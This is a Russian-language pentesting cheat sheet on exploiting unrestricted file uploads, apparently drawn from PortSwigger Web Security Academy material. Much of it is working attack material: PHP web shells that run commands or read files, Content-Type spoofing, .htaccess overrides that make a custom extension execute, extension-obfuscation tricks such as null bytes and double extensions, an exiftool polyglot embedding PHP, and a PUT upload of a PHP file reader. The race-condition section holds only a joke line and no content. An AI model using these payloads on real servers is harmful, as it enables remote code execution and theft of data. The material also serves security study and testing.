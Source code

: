 [File upload vulnerabilities](https://portswigger.net/web-security/file-upload)

# Эксплуатация неограниченной загрузки файлов для развертывания веб-оболочки

```php
<?php echo file_get_contents('/path/to/target/file'); ?>
<?php echo system($_GET['command']); ?>
GET /example/exploit.php?command=id HTTP/1.1
```

# Эксплуатация несовершенной проверки загружаемых файлов

## Неправильная проверка типа файла

```
Content-Disposition: form-data; name="image"; filename="exploit.php"
Content-Type: image/jpeg
```

## Предотвращение выполнения файлов в каталогах, доступных пользователю

Веб-серверы часто используют поле `filename` в запросах `multipart/form-data` для определения имени и места сохранения файла.

## Недостаточный черный список опасных типов файлов

Черные списки иногда можно обойти, используя менее известные, альтернативные расширения файлов, которые могут быть исполняемыми, например .php5, .shtml и так далее.

## Переопределение конфигурации сервера

Чтобы Apache выполнял файлы PHP, запрошенные клиентом, разработчики должны добавить следующие директивы в файл `/etc/apache2/apache2.conf`:

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
AddType application/x-httpd-php .php
```

Многие серверы также позволяют разработчикам создавать специальные конфигурационные файлы в отдельных каталогах, чтобы переопределить или добавить к одной или нескольким глобальным настройкам. Серверы Apache, например, загружают конфигурацию для конкретной директории из файла `.htaccess`, если таковой имеется. 

Для эксплуатации можно перезаписать этот файл содержимым:

```
AddType application/x-httpd-php .l33t
```

В запросе загрузки файла изменить заголовок:

```
Content-Type: text/plain
```

И загрузить файл `shell.l33t` с хедерами:

```
Content-Disposition: form-data; name="avatar"; filename="shell.l33t"
Content-Type: application/x-httpd-php
```

На серверах IIS с помощью файла `web.config`:

```xml
<staticContent>
	<mimeMap fileExtension=".json" mimeType="application/json" />
</staticContent>`
```

## Обфускация расширений файлов

Несколько расширений

```
exploit.php.jpg
```

Символы в конце строки

```
exploit.php.
```

Кодировка URL (или двойная) для точек, прямых и обратных косых черт

```
exploit%2Ephp
```

Точка с запятой или символы нулевого байта, закодированные в URL, перед расширением файла:

```
exploit.asp;.jpg
exploit.asp%00.jpg
```

Если удаление/замена опасных расширений выполняется не рекурсивно:

```
exploit.p.phphp
```

Многобайтовые символы юникода, которые могут быть преобразованы в нулевые байты и точки после преобразования или нормализации юникода. Последовательности типа `xC0 x2E`,` xC4 xAE` или `xC0 xAE` могут быть преобразованы в `x2E`, если имя файла анализируется как строка UTF-8, но затем преобразуются в символы ASCII перед использованием в пути.

## Неправильная проверка содержимого файла

С помощью специальных инструментов, таких как ExifTool, можно легко создать полиглотный файл JPEG, содержащий вредоносный код в своих метаданных:

```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" kitten.jpg -o polyglot.php
```

[Статья Bypass File Upload Restrictions](https://medium.com/codex/bypass-file-upload-restrictions-f30c88e1fccb)

## Эксплуатация file upload race conditions

рейс кондишн это жоска

# Эксплуатация уязвимостей загрузки файлов без удаленного выполнения кода

## Загрузка вредоносных сценариев на стороне клиента

Если можно загружать файлы HTML или изображения SVG, потенциально можно использовать теги `<script>` для создания [хранимых XSS](xss.md).

Обращаем внимание на то, что из-за ограничений [same-origin policy](cors.md) эти виды атак будут работать только в том случае, если загруженный файл будет обслуживаться из того же источника, в который был загружен.

## Эксплуатация уязвимостей при парсинге загруженных файлов

Если кажется, что загруженный файл и хранится, и обслуживается безопасно, в крайнем случае можно попробовать использовать уязвимости, связанные с разбором или обработкой различных форматов файлов. Например, вы знаете, что сервер анализирует файлы на основе XML, такие как файлы Microsoft Office .doc или .xls, это может быть потенциальным вектором для атак [XXE-инъекций](xxe-injection.md).

# Загрузка файлов с помощью PUT

Стоит отметить, что некоторые веб-серверы могут быть настроены на поддержку запросов PUT. При отсутствии соответствующей защиты это может стать альтернативным способом загрузки вредоносных файлов, даже если функция загрузки недоступна через веб-интерфейс:

```http
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```

Можно попробовать отправить запросы `OPTIONS` на различные конечные точки, чтобы проверить те из них, которые поддерживают метод `PUT`.